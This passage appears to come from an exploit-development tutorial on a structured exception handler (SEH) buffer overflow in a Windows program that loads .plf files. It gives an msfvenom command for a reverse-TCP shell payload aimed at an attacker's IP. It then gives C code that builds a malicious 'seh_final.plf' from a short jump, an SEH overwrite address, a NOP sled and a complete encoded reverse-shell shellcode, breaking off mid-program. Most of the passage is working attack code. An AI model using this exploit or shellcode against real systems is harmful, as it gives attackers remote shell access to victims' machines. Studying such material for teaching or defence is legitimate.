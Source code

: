 ```c
memcpy(payload + sizeA + sizeof(jmp_short) - 1 + sizeof(seh) + sizeof(nops), shellcode, sizeof(shellcode) - 1);
```
Perfect, now all that's left is building a functional shellcode. For that, I'll use msfvenom. Here are a few instructions to generate our shellcode:

```shell
msfvenom -p windows/shell_reverse_tcp lhost= <ip> lport=8443 -f c -b '\x00\x0a\x1a' -v shellcode
```
Here we removed the bad chars, added the output format for C-style code, and to make it work, we just need to specify the IP address that will receive the connection, then include the generated shellcode in our exploit:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main() {
    FILE *arq;
    const char *file = "seh_final.plf";

    char jump_short[] = "\x90\x90\xeb\x04";

    char seh[] = { 0x51, 0xAA, 0x33, 0x60 };

    char nops[20];
    memset(nops, 0x90, sizeof(nops));

    unsigned char shellcode[] =
    "\xda\xdd\xd9\x74\x24\xf4\x58\xbb\x46\xa5\x94"
    "\x1c\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x58\x13"
    "\x03\x1e\xb6\x76\xe9\x62\x50\xf4\x12\x9a\xa1"
    "\x99\x9b\x7f\x90\x99\xf8\xf4\x83\x29\x8a\x58"
    "\x28\xc1\xde\x48\xbb\xa7\xf6\x7f\x0c\x0d\x21"
    "\x4e\x8d\x3e\x11\xd1\x0d\x3d\x46\x31\x2f\x8e"
    "\x9b\x30\x68\xf3\x56\x60\x21\x7f\xc4\x94\x46"
    "\x35\xd5\x1f\x14\xdb\x5d\xfc\xed\xda\x4c\x53"
    "\x65\x85\x4e\x52\xaa\xbd\xc6\x4c\xaf\xf8\x91"
    "\xe7\x1b\x76\x20\x21\x52\x77\x8f\x0c\x5a\x8a"
    "\xd1\x49\x5d\x75\xa4\xa3\x9d\x08\xbf\x70\xdf"
    "\xd6\x4a\x62\x47\x9c\xed\x4e\x79\x71\x6b\x05"
    "\x75\x3e\xff\x41\x9a\xc1\x2c\xfa\xa6\x4a\xd3"
    "\x2c\x2f\x08\xf0\xe8\x6b\xca\x99\xa9\xd1\xbd"
    "\xa6\xa9\xb9\x62\x03\xa2\x54\x76\x3e\xe9\x30"
    "\xbb\x73\x11\xc1\xd3\x04\x62\xf3\x7c\xbf\xec"
    "\xbf\xf5\x19\xeb\xc0\x2f\xdd\x63\x3f\xd0\x1e"
    "\xaa\x84\x84\x4e\xc4\x2d\xa5\x04\x14\xd1\x70"
    "\x8a\x44\x7d\x2b\x6b\x34\x3d\x9b\x03\x5e\xb2"
    "\xc4\x34\x61\x18\x6d\xde\x98\xcb\x3e\x0f\x70"
    "\xc3\x57\x32\x74\xf4\x5c\xbb\x92\x9e\xb2\xea"
    "\x0d\x37\x2a\xb7\xc5\xa6\xb3\x6d\xa0\xe9\x38"
    "\x82\x55\xa7\xc8\xef\x45\x50\x39\xba\x37\xf7"
    "\x46\x10\x5f\x9b\xd5\xff\x9f\xd2\xc5\x57\xc8"
    "\xb3\x38\xae\x9c\x29\x62\x18\x82\xb3\xf2\x63"
    "\x06\x68\xc7\x6a\x87\xfd\x73\x49\x97\x3b\x7b"
    "\xd5\xc3\x93\x2a\x83\xbd\x55\x85\x65\x17\x0c"
    "\x7a\x2c\xff\xc9\xb0\xef\x79\xd6\x9c\x99\x65"
    "\x67\x49\xdc\x9a\x48\x1d\xe8\xe3\xb4\xbd\x17"
    "\x3e\x7d\xcd\x5d\x62\xd4\x46\x38\xf7\x64\x0b"
    "\xbb\x22\xaa\x32\x38\xc6\x53\xc1\x20\xa3\x56"
    "\x8d\xe6\x58\x2b\x9e\x82\x5e\x98\x9f\x86";

    char buffer[3000];
```